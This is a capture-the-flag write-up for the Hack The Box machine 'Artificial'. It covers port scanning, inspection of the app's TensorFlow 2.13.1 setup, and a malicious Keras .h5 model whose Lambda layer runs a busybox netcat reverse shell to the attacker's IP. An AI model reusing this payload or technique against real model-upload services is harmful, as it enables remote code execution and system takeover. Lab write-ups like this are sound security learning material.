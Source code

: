 starting with initial recon 

```
nmap -sV -sC -oN nmap.txt  -p- 10.10.11.74 --min-rate=5000
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 16:21 CET
Nmap scan report for 10.10.11.74 (10.10.11.74)
Host is up (0.68s latency).
Not shown: 48960 filtered tcp ports (no-response), 16573 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 218.67 seconds
```

adding the domain to our `/etc/hosts `

```bash 
sudo echo "10.10.11.74     artificial.htb" >> /etc/hosts
```

simple looking ui 
<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162502.png">
registering a new account and logging in with it 
<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162718.png">
this will lead us to the page where it present us with this .. 
<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162855.png">
checking the `requirement.txt` and `Dockerfile` 

Dockerfile 
```
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

requirements.txt 
```
tensorflow-cpu==2.13.1
```

this version of tensorflow library might have some vurnabilitys .  

after searching i found this 

https://github.com/advisories/GHSA-x4wf-678h-2pmq

looking for POC to recreate the exploit 

https://mastersplinter.work/research/tensorflow-rce/

the idea is to generate a `.h5` model that contains our malicious command so we can import it and get a reverse shell 

to recreate the exploit we need first to install tensorflow on our machine  (which is annoying task) 


```python3 
import tensorflow as tf

def exploit(x):
    import os
    os.system("busybox nc 10.10.15.53 4444 -e /bin/sh")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

I always use busybox since its found on every linux distro . 

generating our model 
```cmd
python3 exploit.py 
```

opening a listener on our machine 
<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017165134.png">
and finally importing our model will give us a shell 



